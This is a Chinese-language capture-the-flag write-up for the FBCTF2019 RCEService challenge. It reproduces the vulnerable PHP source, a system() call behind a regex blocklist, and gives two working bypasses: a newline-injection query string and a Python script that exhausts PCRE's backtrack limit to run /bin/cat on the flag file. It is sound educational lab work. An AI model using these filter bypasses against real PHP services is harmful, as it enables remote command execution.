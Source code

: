 ```yaml
---
title: FBCTF2019 RCEService
date: 2024-05-29 17:05:27
tags: 题解
categories: 刷题笔记
---
```


## [FBCTF2019]RCEService

用json格式输入{"cmd":"ls"}

![image-20240529170911278](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405291709460.png)

我们再查看源码（可能比赛给了源码吧，我是没找到）

<!-- more -->

```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else if (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

我们发现过滤了好多东西

然后要进行绕过

**第一种方法：**

由于preg_match只匹配第一行，所以这里可以采用多行绕过

由于putenv('PATH=/home/rceservice/jail');修改了环境变量，所以只能使用绝对路径使用cat命令，cat命令在/bin文件夹下

```
?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"%0a}
```

在使用PHP脚本时，如果你设置了环境变量 `PATH`，并且这个变量的值不包含 `/bin`，那么你将无法使用相对路径来调用系统命令（如 `cat`），而必须使用绝对路径。



**第二种方法**

利用回溯次数来绕过函数

```
import requests

url='http://node2.anna.nssctf.cn:28505/'
data={
    'cmd':'{"cmd":"/bin/cat /home/rceservice/flag","qq":"'+'a'*1000000+'"}'
}
r=requests.post(url=url,data=data).text
print(r)

```

![image-20240529172723017](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405291727104.png)

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit

回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false。
